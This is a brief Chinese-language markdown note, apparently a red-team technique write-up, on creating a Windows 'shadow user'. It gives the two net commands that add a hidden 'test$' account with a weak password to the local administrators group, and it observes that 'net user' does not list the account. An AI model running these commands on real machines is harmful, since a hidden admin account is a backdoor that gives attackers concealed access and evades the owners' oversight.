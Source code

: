 # 影子用户

先利用命令创建一个隐藏用户,并将其加入本地管理员组。

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

![image-20240409152113583](images/1.png)

可以看到用net user查看不到隐藏的`test$`用户，但是在计算机管理中可以看到

![image-20240409152208470](images/2.png)
